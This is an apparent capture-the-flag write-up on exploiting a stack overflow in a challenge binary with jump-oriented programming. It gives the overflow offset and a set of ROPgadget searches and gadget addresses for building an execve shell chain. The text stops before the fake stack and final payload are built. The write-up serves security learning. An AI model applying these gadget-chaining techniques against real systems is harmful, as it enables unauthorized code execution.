 # JOP:Solution

The binary is compiled with NX and Full RELRO
```
checksec chal.bin   
[*] '/root/workspace/vuln/jop/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.
```
rabin2 -I chal.bin 
arch     x86
baddr    0x400000
binsz    12587
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Debian 12.2.0-9) 12.2.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
```

We can exploit the read() function (shown in high level language).
```
00401228      puts(str: "--------------------------------…")
00401237      puts(str: "Pack it up, pack it in, let me b…")
00401246      puts(str: "I came to win, battle me, that's…")
00401255      puts(str: "I won't ever slack up, punk, ya …")
00401264      puts(str: "Try and play the role and yo, th…")
00401273      puts(str: "                             - \x1b…")
00401282      puts(str: "--------------------------------…")
0040129d      void var_c
0040129d      printf(format: "<<< Stack: %p\n", &var_c)
004012ac      puts(str: "--------------------------------…")
004012c0      printf(format: "So get out your seat and jump ar…")
004012dd      void var_78
004012dd      return read(fd: 0, buf: &var_78, nbytes: 136)
```

In the function above there space set aside for the user input using var_c and can be seen in the disassembly here:
```
0040121a  4883ec70           sub     rsp, 112
```

112 + 8 = 120 bytes to overwrite and to check we can run the program and test it. Using cyclic to spit out 120 characters the program ends normally, adding 1 causes a seg fault.
Therefore the overflow is at 120.

The goal is to get a shell to cat the flag so we need to set up a syscall to execve, which means we need to set RAX, RDI, RSI, and RDX. Then we need to create our fake stack.

First I looked to mov something into RAX
```
ROPgadget --binary chal.bin | grep mov | grep rax
0x0000000000401203 : mov byte ptr [rax], 0 ; add byte ptr [rax], al ; jmp rdx
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011cb : mov ebp, esp ; mov rax, 0x3b ; jmp rdx
0x00000000004010c7 : mov edi, 0x404010 ; jmp rax
0x00000000004011cd : mov rax, 0x3b ; jmp rdx
```

The last gadget seemed promising so I checked what was being moved into RAX and 0x3b is 59, which is the syscall number for execve.

Next I looked for mov and RDI.
```
ROPgadget --binary chal.bin | grep mov | grep rdi
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011db : mov ebp, esp ; mov rdi, rbp ; jmp rdx
0x00000000004011da : mov rbp, rsp ; mov rdi, rbp ; jmp rdx
0x00000000004011dd : mov rdi, rbp ; jmp rdx
```

The last gadget would move RBP into RDI, so I just needed to pop RBP.
```
0x000000000040113d : pop rbp ; ret
```

RSI was next.
```
ROPgadget --binary chal.bin | grep rsi
0x00000000004011ff : mov ebp, esp ; mov rsi, 0 ; jmp rdx
0x0000000000401201 : mov rsi, 0 ; jmp rdx
```

There were only 2 available gadgets and the second one made sense. 

Last is RDX. Every other gadget has a jmp back to RDX. We want to make sure that RDX is 0.
```
ROPgadget --binary chal.bin | grep rdx | grep xor
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f1 : push rbp ; mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f5 : xor rdx, rdx ; jmp rcx
```

Using the last gadget would mean put RDX in RCX.
```
ROPgadget --binary chal.bin | grep mov | grep rcx
0x00000000004011e7 : mov ebp, esp ; mov rcx, rdx ; jmp rdx
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011e6 : mov rbp, rsp ; mov rcx, rdx ; jmp rdx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011e9 : mov rcx, rdx ; jmp rdx
```

Then it jumps back to RDX like every other gadget has so far. Last we needed to be able to add 8 to RSP to advance the program counter.
There was only one gadget that moved anything into RDX.
```
0x00000000004011b6 : mov rdx, 0x40119d ; jmp rdx
```

Looking at 0x40119d we see:
```
0040119d  4883c408           add     rsp, 8
004011a1  4d31c9             xor     r9, r9
004011a4  4983c108           add     r9, 0x8
004011a8  4901e1             add     r9 {arg1}, rsp
004011ab  41ff21             jmp     qword [r9 {arg1}]
```

Creating the fake stack is next, which we can do using the stack leak and a little bit of GDB analysis. 


